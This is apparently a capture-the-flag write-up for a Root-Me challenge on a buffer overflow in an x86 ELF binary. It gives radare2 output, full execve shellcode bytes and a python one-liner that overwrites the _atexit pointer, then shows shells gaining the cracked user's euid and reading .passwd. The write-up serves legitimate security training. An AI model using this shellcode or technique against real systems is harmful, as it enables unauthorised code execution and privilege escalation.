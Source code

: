 # BSS buffer overflow

    https://www.root-me.org/en/Challenges/App-System/ELF-x86-BSS-buffer-overflow

Name of challenge is BSS overflow.  Except that the global variables are initialised and, as can be seen from radare2 output, are in the .data.  Same method works regardless.

    [0xb7fdf030]> iS
    idx=24 vaddr=0x0804a020 paddr=0x00001020 sz=548 vsz=548 perm=--rw- name=.data
    idx=25 vaddr=0x0804a244 paddr=0x00001244 sz=8 vsz=8 perm=--rw- name=.bss
    
    [0xb7fdf030]> f
    vaddr=0x0804a040 paddr=0x00001040 ord=058 fwd=NONE sz=512 bind=GLOBAL type=OBJECT name=username
    vaddr=0x0804a240 paddr=0x00001240 ord=053 fwd=NONE sz=4 bind=GLOBAL type=OBJECT name=_atexit


Overflow of buffer into the _atexit function pointer.

                     512bytes |
    <nop padding> + <shellcode> + <obj.username>


Method:
    
    * Get address of string
    * NULL terminate the string
    * Setup and make call to sys_execve
    * Setup and make call to sys_exit


Of interest:

    * 0x09 is the TAB character and will cut off the cmdline argument


1st run:

    ./shellcode.py
    shellcode: 
    \xeb\x1d\x5b\x31\xd2\x89\xd9\x83\xc1\x04\x83\xc1\x05\x88\x11\x31\xc0\xb0\x0b\x31\xc9\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xde\xff\xff\xff\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x41
    bytes    : 46


    app-systeme-ch7@challenge02:~$ ./ch7 $(python -c 'print "\x90" * 466 + "\xeb\x1d\x5b\x31\xd2\x89\xd9\x83\xc1\x04\x83\xc1\x05\x88\x11\x31\xc0\xb0\x0b\x31\xc9\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xde\xff\xff\xff\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x41" + "\x40\xa0\x04\x08"')

    bash-4.3$ id
    uid=1107(app-systeme-ch7) gid=1107(app-systeme-ch7) groups=1107(app-systeme-ch7),100(users)


Also of interest:

    * /bin/dash is shell with higher level of privilage


2nd run:

    $(python -c 'print "\x90" * 466 + "\xeb\x1d\x5b\x31\xd2\x89\xd9\x83\xc1\x04\x83\xc1\x05\x88\x11\x31\xc0\xb0\x0b\x31\xc9\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xde\xff\xff\xff\x2f\x62\x69\x6e\x2f\x64\x61\x73\x68\x41" + "\x40\xa0\x04\x08"')

    $ id
    uid=1107(app-systeme-ch7) gid=1107(app-systeme-ch7) euid=1207(app-systeme-ch7-cracked) groups=1207(app-systeme-ch7-cracked),100(users),1107(app-systeme-ch7)
    $ cat .passwd
    ...

